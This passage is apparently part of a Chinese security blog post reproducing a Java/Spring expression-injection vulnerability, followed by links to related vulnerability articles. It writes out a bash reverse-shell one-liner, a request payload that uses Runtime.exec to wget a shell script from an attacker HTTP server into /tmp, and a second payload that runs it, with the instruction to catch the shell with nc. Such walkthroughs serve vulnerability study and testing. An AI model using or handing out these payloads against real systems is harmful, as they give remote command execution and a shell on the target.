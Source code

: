     
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1

用python起一个http服务，并构造payload下载shell.sh文件保存在/tmp/目录下，名称为1

    
    
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.1.2:8000/shell.sh")]=111&password=111&repeated=111&Password=111

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102007.png)

nc打开端口监听再构造payload进行命令执行即可收到反弹shell

    
    
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/bash /tmp/1")]=111&password=111&repeated=111&Password=111

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102008.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102009.png)

  

  

**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102010.png)**

  

 **推荐阅读：**

 **  
**

 **[干货 |
Spring系列CVE以及POC编写](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498027&idx=1&sn=6800b032fb7d44edf98b8a95187a3d73&chksm=ec1cac14db6b25022aecbca4b54b9e76f8c5de9a448d0fcc4f36b7ef45daaa25b32829c24b6b&scene=21#wechat_redirect)  
**

  

[ **Java SpringBoot
相关漏洞学习资料**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247489578&idx=1&sn=58fdad1d375727cd855ca0ee44fb836e&chksm=ec1f4d15db68c40336717c9919341df75b20eda75f094fe838f5c1be06abaee8c9742035259d&scene=21#wechat_redirect)  

  

[ **干货 |
最全的Weblogic漏洞复现**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498979&idx=1&sn=254f5fd3cde4cf3a4bcdcce58c1029f1&chksm=ec1ca9dcdb6b20ca20ea2838ddaf3ba17fdf239fb057db49ac866bf4d94f70518915801fcc6d&scene=21#wechat_redirect)  

  

 **点赞，转发，在看**

  

原创投稿作者：mathwizard
